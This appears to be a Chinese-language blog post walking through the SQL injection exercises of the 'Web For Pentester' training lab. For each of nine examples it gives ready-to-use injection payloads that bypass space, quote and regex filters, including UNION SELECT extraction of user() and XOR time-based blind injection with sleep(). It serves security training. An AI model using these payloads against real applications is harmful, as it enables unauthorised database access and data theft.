 ```yaml
---
ayout:     post
title:      "Web For Pentester - SQLi Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/202cb962ac59075b964b07152d234b70.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises




---
```




### SQLi Example 1

最基础的字符型注入，无任何过滤

**name=root' and '1'='1**

### SQLi Example 2

过滤了空格，语句中若出现空格就会报错

> - 水平制表(HT) url编码：%09
> - 注释绕过空格   /\*注释\*/

**name=root'%09and%09'1'='1**

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 3

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 4

最基础的数值型注入，过滤了单引号

**id=2%20and%201=2**

### SQLi Example 5

```php
//代码片段
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字开头

**id=1/0 UNION SELECT 1,user(),3,4,5**

### SQLi Example 6

```php
//代码片段
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字结尾

**id=1 and 1=1%23123**

### SQLi Example 7

```php
//代码片段
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```

这里使用了[PCRE_MULTLINE](http://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)(/m)，也就是说任意换行符之前或之后都必须是数字，那么就可以构造如下payload

**id=1%0a and 1=1**

### SQLi Example 8

使用XOR逻辑加时间盲注进行猜解

**order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23**

### SQLi Example 9

这里过滤了“`”，可以使用XOR让第一个语句报错，第二个语句正确，页面显示正常

**order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23**















